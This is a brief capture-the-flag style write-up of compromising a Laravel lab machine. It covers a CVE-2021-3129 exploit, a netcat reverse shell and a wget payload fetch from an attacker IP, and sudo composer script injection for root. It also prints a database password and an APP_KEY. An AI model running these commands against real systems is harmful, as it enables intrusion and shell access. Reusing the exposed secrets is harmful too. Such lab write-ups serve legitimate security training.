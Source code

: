 #Pwned! 
```IP
192.168.194.38
```
# Enumeration

## HTTP 80
apache 2.4.56
vue.js 2.7.14
laravel 8.4.0

# Exploitation

https://github.com/joshuavanderpoll/CVE-2021-3129
```
python CVE-2021-3129.py --host http://192.168.194.38/ --log /var/www/html/storage/logs/laravel.log
```
```
execute rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.237 443 >/tmp/f
```
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.237 443 >/tmp/f
```

# PrivEsc
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241129120617.png?raw=true)

## Manual
mariadb 127.0.0.1:3306
interesting writable files /dev/mqueue
pspy64
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241129160041.png?raw=true)

```
wget http://192.168.45.237:8000/rev.php -O rev.php
```

```
cp rev.php /var/www/html/lavita/artisan
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241129160546.png?raw=true)
As skunk we have sudo permissions
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241129160641.png?raw=true)
```
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >/var/www/html/lavita/composer.json
```
```
sudo /usr/bin/composer --working-dir\=/var/www/html/lavita run-script x
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241129162513.png?raw=true)

## Automated

### Peass
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241129122446.png?raw=true)
```
mysql -p 'lavita' -u 'lavita'
```
```
sdfquelw0kly9jgbx92
```
```
APP_KEY=base64:zfXJipTpbCyrZHRDpn0/NmdpHTbAl7/hCMf476EP1LU=
```
### Mimikatz

# Lateral Movement

